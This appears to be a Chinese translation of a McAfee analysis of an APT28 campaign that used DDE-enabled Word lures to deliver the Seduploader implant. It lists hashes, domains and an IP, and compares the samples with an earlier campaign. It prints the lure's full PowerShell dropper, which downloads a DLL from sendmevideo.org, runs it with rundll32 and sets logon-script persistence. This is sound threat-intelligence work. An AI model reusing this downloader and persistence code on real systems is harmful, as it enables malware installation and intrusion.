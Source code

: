 此外，McAfee的研究人员还发现了一个相关的样本，特征如下所示：

**文件名称：secnt.dll**

**Sha1: ab354807e687993fbeb1b325eb6e4ab38d428a1e**

**编译日期：2017-10-30 23:53:02**

**控制服务器：satellitedeluxpanorama[.]com. （该域名使用的域名服务器同上。）**

<br>

**第二阶段**

上面的样本很可能隶属于同一次入侵活动。根据我们的分析，它使用了相同的技术和payload。因此，我们可以断定，这次涉及DDE漏洞文档的攻击活动是从10月25日开始的。

其中，secnt.dll使用的域名satellitedeluxpanorama[.]com在11月5日被解析为89.34.111.160。恶意文档68c2809560c7623d2307d8797691abf3eafe319a负责投递Seduploader的payload（secnt.dll）。它的原始文件名是SabreGuardian2017.docx。这个文档是在10月27日创建的。该文档下载自hxxp://sendmevideo[.]org/SaberGuardian2017.docx。此外，该文件会调用sendmevideo[.]org/dh2025e/eh.dll来下载Seduploader（ab354807e687993fbeb1b325eb6e4ab38d428a1e）。

这个文档中嵌入的PowerShell命令如下所示：



```
$W=New-Object System.Net.WebClient;
$p=($Env:ALLUSERSPROFILE+”mvdrt.dll”);
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = `{`$true`}`;
$W.DownloadFile(“http://sendmevideo.org/dh2025e/eh.dll”,$p);
if (Test-Path $p)`{`
$rd_p=$Env:SYSTEMROOT+”System32rundll32.exe”;
$p_a=$p+”,#1″;
$pr=Start-Process $rd_p -ArgumentList $p_a;
$p_bat=($Env:ALLUSERSPROFILE+”mvdrt.bat”);
$text=’set inst_pck = “%ALLUSERSPROFILE%mvdrt.dll”‘+”`r`n”+’if NOT exist %inst_pck % (exit)’+”`r`n”+’start rundll32.exe %inst_pck %,#1’
[io.File]::WriteAllText($p_bat,$text)
New-Item -Path ‘HKCU:Environment’ -Force | Out-Null;
New-ItemProperty -Path ‘HKCU:Environment’ -Name ‘UserInitMprLogonScript’ -Value “$p_bat” -PropertyType String -Force | Out-Null;
`}`
```

文件vms.dll（4bc722a9b0492a50bd86a1341f02c74c0d773db7）与secnt.dll（ ab354807e687993fbeb1b325eb6e4ab38d428a1e）的相似度为99％，这表明其中的代码几乎完全相同，所以，它们极有可能都隶属于同一次攻击活动。换句话说，这两个DLL参与了这次攻击活动。此外，根据我们的代码分析结果来看，样本4bc722a9b0492a50bd86a1341f02c74c0d773db7与DLL植入物8a68f26d01372114f660e32ac4c9117e5d0577f1具有99％的相似度，而后者参与了以[Cy Con U.S](http://aci.cvent.com/events/2017-international-conference-on-cyber-conflict-cycon-u-s-/event-summary-004d598d31684f21ac82050a9000369f.aspx)网络安全会议为诱饵的攻击活动。

不过，这两次攻击活动中采用的攻击技术有所不同：以Cy Con U.S会议为诱饵的攻击活动，是通过文档文件来执行恶意的VBA脚本；而这次以恐怖袭击为诱饵的攻击活动，则使用文档文件中的DDE执行PowerShell脚本，并从分发站点远程获取payload。但是，这两次攻击活动所使用的payload却是相同的。

**<br>**

**小结**

APT28是一个实力雄厚的威胁组织，它不仅利用最近的热点事件来引诱潜在的受害者上钩，而且还能够迅速采用新的漏洞技术来增加其成功的可能性。由于Cycom U.S活动已经在媒体上曝光，所以APT28组织可能不再继续使用过去VBA脚本，转而通过DDE技术来绕过网络防御。最后，从APT28利用近期的国内事件和美国针对俄罗斯的军事演习这两点来看，APT28非常擅长利用地缘政治事件为诱饵来发动网络攻击。
